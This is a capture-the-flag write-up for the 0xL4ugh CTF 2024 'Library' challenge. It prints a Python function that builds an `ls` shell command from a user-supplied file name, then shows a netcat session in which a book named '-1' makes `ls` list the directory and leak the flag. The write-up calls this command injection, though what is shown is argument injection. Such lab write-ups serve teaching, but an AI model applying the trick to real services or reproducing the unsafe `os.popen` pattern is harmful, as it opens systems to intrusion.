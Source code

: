 <title>Library - 0xL4ugh CTF 2024 </title>

<!DOCTYPE html>
<html>
 
<body>
    <h1>Library - 0xL4ugh CTF 2024 </h1>

    <h2>Challenge Description</h2>
    <p>Built a book library, however my friend says that i made a nasty mistake!

Author: zAbuQasem

nc 172.190.120.133 50003
 
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        <li>i download code and see a vounerable code in  challenge.py in this function</li>
<pre>
ef check_file_presence():
    book_name = shlex.quote(console.input("[bold blue]Enter the name of the book (file) to check:[/bold blue] "))
    command = "ls " + book_name

    try:
        result = os.popen(command).read().strip()
        print(result)
        if result == book_name:
            console.print(f"[bold green]The book is present in the current directory.[/bold green]")
        else:
            console.print(f"[bold red]The book is not found in the current directory.[/bold red]")
    except Exception as e:
        console.print(f"[bold red]Error: {e}[/bold red]")</pre>
       </pre>
   this code<pre>book_name = shlex.quote(console.input("[bold blue]Enter the name of the book (file) to check:[/bold blue] "))
    command = "ls " + book_name</pre> will check exist of code with run command ls if have any book so i create book via options 7 and 2  and chaeck file exist with 8
and see flag in list of files after run ls
<pre>
nc 172.190.120.133 50003

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 7

Book Manager:
1. Save Existing
2. Create new book
Enter your choice (1-2): 2
Enter book title: -1
Enter book author: 1
1Enter book ISBN: 
Enter number of copies: 1
Book saved successfully

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 8
Enter the name of the book (file) to check: -1
$FLAG
*
-1
0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
2
<bound method SaveFile.__init__ of <__main__.SaveFile object at 0x7f7b767b5790>>
AAA 0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
FLAG
challenge.py
echo 'Hello'
echo hello
exec.sh
sex
The book is not found in the current directory.

Library Management System
1. Add Member
2. Add Book
3. Display Books
4. Search Book
5. Check Out Book
6. Return Book
7. Save Book
8. Check File Presence
0. Exit
Enter your choice (0-8): 
</pre>

    
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">0xL4ugh{TrU5t_M3_LiF3_I5_H4rD3r!}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for command injection in python code</p>
</body>
</html>

 